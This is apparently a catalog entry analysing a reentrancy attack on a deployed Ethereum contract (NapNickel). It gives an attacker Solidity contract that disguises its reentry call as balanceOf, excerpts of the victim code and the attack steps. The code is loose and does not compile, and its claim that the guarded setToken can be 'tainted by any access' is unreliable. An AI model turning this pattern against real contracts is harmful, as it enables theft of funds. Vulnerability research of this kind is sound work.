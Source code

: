 #########
Attack 10
#########

**Contract Name**

NapNickel

**Contract Address**

0x1ff6f142ebdce220d8dd85eb31dcb92a47690846

**Transaction Count**

1

**Invovled Ethers**

0.1 Ethers

**Length of the Call Chain**

2 external function, 2 internal funciton

**Victim Function**

``CashOut``

**Attack Mechanisim**

Attack code:
::

    contract Attack is MifflinToken {
        address victim;
        address market;
        constructor() payable {}

        function setVictim(address _vic, address _market) {
            victim = _vic
            market = _market
        }

        function prepareAttack() {
            market.call(bytes4(keccak256("setToken(uint8, address)")), 1, this);
        }

        function balanceOf(MifflinToken token) public {   // Disguised attack function
            victim.call.value(1 eth)(bytes4(keccak256("contribution(uint256)")), 10);
        }

        function() payable{
            p.CashOut(1 eth);
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract MifflinToken is Owned, TokenERC20 {
        ...
        function contribution(uint256 amount)internal returns(int highlow){
            owner.transfer(msg.value);
            totalContribution += msg.value;

            if (amount > highestContribution) {
                uint256 oneper = buyPrice * 99 / 100; // lower by 1%*
                uint256 fullper = buyPrice *  highestContribution / amount; // lower by how much you beat the prior contribution
                if(fullper > oneper) buyPrice = fullper;
                else buyPrice = oneper;
                highestContribution = amount;
                // give reward
                MifflinMarket(exchange).highContributionAward(msg.sender);
                return 1;
            } else if(amount < lowestContribution){
                MifflinMarket(exchange).lowContributionAward(msg.sender);
                lowestContribution = amount;
                return -1;
            } else return 0;
        }

        ...
    }

    contract MifflinMarket is Owned {
        ...
        modifier onlyOwnerOrigin{
            require(tx.origin == owner);
            _;
        }

        function setToken(uint8 tid,address addy) public onlyOwnerOrigin { // Only add tokens that were created by exchange owner
            tokenIds[tid] = addy;
        }

        function getRewardToken() public view returns(MifflinToken){
            return getTokenById(rewardTokenId);
        }

        function getTokenById(uint8 id) public view returns(MifflinToken){
            require(tokenIds[id] > 0);
            return MifflinToken(tokenIds[id]);
        }

        function highContributionAward(address to) public onlyTokens {
            MifflinToken reward = getRewardToken();
            //dont throw an error if there are no more tokens
            if(reward.balanceOf(reward) > 0){
                reward.give(to, 1);
            }
        }
        ...
    }
    ...

In this case, the key condition defenses reentrancy attack is ``reward.balanceOf(reward) > 0`` in function ``highContributionAward``. However, ``reward`` can be easily tainted. It inherits value from ``tokenIds[id]``, which can also be easily taited by any access.

**Attack.** The attacker call ``setVictim`` function to specify the address to attack. Then attacker call ``prepareAttack``function to taint variable. Finally attacker call ``balanceOf`` to start attack.